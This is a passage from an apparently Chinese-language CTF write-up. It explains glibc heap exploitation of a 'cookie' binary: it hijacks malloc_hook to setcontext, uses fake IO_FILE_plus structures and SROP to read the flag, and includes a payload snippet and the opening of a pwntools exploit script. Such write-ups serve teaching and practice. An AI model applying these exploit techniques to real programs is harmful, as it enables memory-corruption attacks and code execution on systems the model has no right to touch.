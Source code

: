 [![](https://p4.ssl.qhimg.com/t01359312968708ac80.png)](https://p4.ssl.qhimg.com/t01359312968708ac80.png)

可以看到已经成功将malloc_hook劫持为setcontext,接下来执行第三个IO_FILE_plus就会触发srop，orw出flag<br>**Fake IO_FILE_plus3:(srop)**

```
payload = p64(0)*2+p64(0)+p64(heap_base+0x29d0)+p64(0) #write
payload += p64(heap_base+0x50+0x290)+p64(heap_base+22+0x50+0x290)+p64(0)*4
payload += p64(heap_base+0x1fa0)+p64(0)+p64(0)+"\x00"*8
payload += p64(0)*4+"\x00"*48
payload += p64(0x1ed560+libc_base)
```

[![](https://p0.ssl.qhimg.com/t0195570e6d822ae8e8.png)](https://p0.ssl.qhimg.com/t0195570e6d822ae8e8.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01114db3b46acbee25.png)

### <a class="reference-link" name="%E5%AE%8C%E6%95%B4exp:"></a>完整exp:

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Author: cnitlrt
import sys
import os
import re
from pwn import *
# context.log_level = 'debug'

binary = './cookie'
elf = ELF('./cookie')
libc = elf.libc
context.binary = binary

DEBUG = 1
if DEBUG:
  p = process(binary)
else:
  host = sys.argv[1]
  port =  sys.argv[2]
  p = remote(host,port)
o_g = [0x45216,0x4526a,0xf02a4,0xf1147]
magic = [0x3c4b10,0x3c67a8,0x846c0,0x45390]#malloc,free,realloc,system
l64 = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
l32 = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
sla = lambda a,b  :p.sendlineafter(str(a),str(b))
sa  = lambda a,b  :p.sendafter(str(a),str(b))
lg  = lambda name,data : p.success(name + ": 0x%x" % data)
se  = lambda payload: p.send(payload)
rl  = lambda      : p.recv()
sl  = lambda payload: p.sendline(payload)
ru  = lambda a     :p.recvuntil(str(a))
def cmd(idx):
    sla("&gt;&gt;",str(idx))
def add(size,payload):
    cmd(1)
    sla("Size:\n",str(size))
    sa("Content:\n",payload)
def show(idx):
    cmd(3)
    sla("Index:\n",str(idx))
```